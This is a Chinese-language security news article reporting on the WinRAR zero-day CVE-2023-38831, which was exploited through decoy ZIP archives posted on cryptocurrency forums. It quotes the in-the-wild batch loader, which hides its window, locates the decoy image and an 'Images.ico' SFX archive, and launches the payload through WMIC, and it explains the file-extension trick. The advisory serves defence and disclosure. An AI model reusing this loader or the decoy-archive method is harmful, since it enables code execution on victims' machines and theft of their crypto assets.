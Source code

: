 #  WinRAR再爆0 day漏洞   
 关键基础设施安全应急响应中心   2023-08-29 15:20  
  
WinRAR再爆0 day漏洞，已被利用超过4个月。   
  
Winrar是一款免费的主流压缩文件解压软件，支持绝大部分压缩文件格式的解压，全球用户量超过5亿。Group-IB研究人员在分析DarkMe恶意软件时发现WinRAR在处理ZIP文件格式时的一个漏洞，漏洞CVE编号为CVE-2023-38831。攻击者利用该漏洞可以创建欺骗性扩展的诱饵文件来隐藏恶意脚本，即将恶意脚本隐藏在伪装为.jpg、.txt和其他文件格式的压缩文件中，并窃取用户加密货币账户。  
  
研究人员在分析DarkMe恶意软件时发现了一些可疑的ZIP文件。Group-IB在8个加密货币交易的主流论坛上发现了这些恶意ZIP文件，如图1所示：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wpkib3J60o29aEz2Xciah2QnmjqweDJB8Fs38D0TnapHya8icQU0gDjPa80OXPT98vMlFo6cJPyOJ1mPMInMCdabw/640?wx_fmt=png&wxfrom=13 "")  
  
图1. 交易论坛发布的帖子  
  
CVE-2023-38831漏洞序列图如图2所示：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wpkib3J60o29aEz2Xciah2QnmjqweDJB8FLKibHE7GdnGwtjhReuKYCjuLPibJqy6egBe8ibUZ1kr6K0OSuJE8qwx5A/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
图2. CVE-2023-38831漏洞序列图  
  
所有压缩文件都是用同一方法创建的，结构相同，包括一个诱饵文件和一个包含恶意文件和未使用文件的文件夹。当用户打开恶意压缩文件后，受害者机会看到一个图像文件和一个相同文件名的文件夹，如图3所示。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wpkib3J60o29aEz2Xciah2QnmjqweDJB8FU4TnjnAH6vliaY4AILmvs9Cl1X7GYj39x3UtzUShR9WM5zMVYNfJ8DA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
图3. 恶意zip文件示例  
  
如果受害者打开伪装为图像的诱饵文件，恶意脚本就会执行攻击的下一阶段，如图4所示：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wpkib3J60o29aEz2Xciah2QnmjqweDJB8F9z7qdvBibWxevURMrZwoJP7uoThqWJ9Ju9viaLyV2SRp1HJGrsW6JSDg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
图4. 攻击流程图  
  
脚本的主要作用是进入攻击的下一阶段，这是通过运行最小化窗口来完成的。然后搜索两个特定文件“Screenshot_05-04-2023.jpg”和 “Images.ico”。JPG文件是受害者打开的图像，“Images.ico”是用来提取和启动新文件的SFX CAB压缩文件。恶意脚本示例如下：  
  
@echo off  
  
if not DEFINED IS_MINIMIZED  
  
  set IS_MINIMIZED=1 && start "" /min "%~dpnx0" %* && exit  
  
  cd %TEMP%  
  
  for /F "delims=" %%K in ('dir /b /s "Screenshot_05-04-2023.jpg"') do  
  
    for /F "delims=" %%G in ('dir /b /s "Images.ico"') do  
  
      WMIC process call create "%%~G" && "%%~K" && cd %CD% && exit  
  
Exit  
  
为了解漏洞工作原理，研究人员创建了2个与发现的恶意压缩文件结构相同的压缩文件。两个文件都包含图像文件，其中一个压缩文件中还包含一个存储脚本的内部文件夹，可以触发消息展示框。然后，研究人员修改了其中一个文件使其与恶意压缩文件一样。然后，比较WinRAR在解压不同压缩文件时的区别。  
  
研究人员主要想确定在打开解压文件时会在%TEMP%/%RARTMPDIR%文件夹中创建什么文件。在原始的zip文件中，只会创建image.jpg文件。在恶意文件zip文件中，其中的文件夹内容也会被提取。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wpkib3J60o29aEz2Xciah2QnmjqweDJB8FRXFicfmvJNHBRzRdrYO8icaV8RG40jMJ53aAql8b0vaDw7nBQEv2cAFA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
图5. 不同zip文件解压比较  
  
也就是说，攻击发生在WinRAR尝试打开用户想要访问的文件时。ShellExecute函数接收到了打开文件的错误参数。图像文件名与搜索不匹配，引发其被跳过。然后就发现了批处理文件，并执行。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wpkib3J60o29aEz2Xciah2QnmjqweDJB8FfQN26iaQLeysfRt9BDSibdas94IayAATOD27nIjEDeHHJp4gSUnHE6XA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
图6 漏洞复现  
  
8月15日该漏洞被分配了CVE编号，但该漏洞从2023年4月开始就被在野利用。研究人员建议WinRAR用户更新到最新的v 6.23版本。  
  
**参考及来源：**  
  
https://www.group-ib.com/blog/cve-2023-38831-winrar-zero-day/  
  
  
  
原文来源：嘶吼专业版  
  
“投稿联系方式：孙中豪 010-82992251   sunzhonghao@cert.org.cn”  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/iaz5iaQYxGogvC8qicuLNlkT5ibJnwu1leQiabRVqFk4Sb3q1fqrDhicLBNAqVY4REuTetY1zBYuUdic0nVhZR4FHpAfg/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
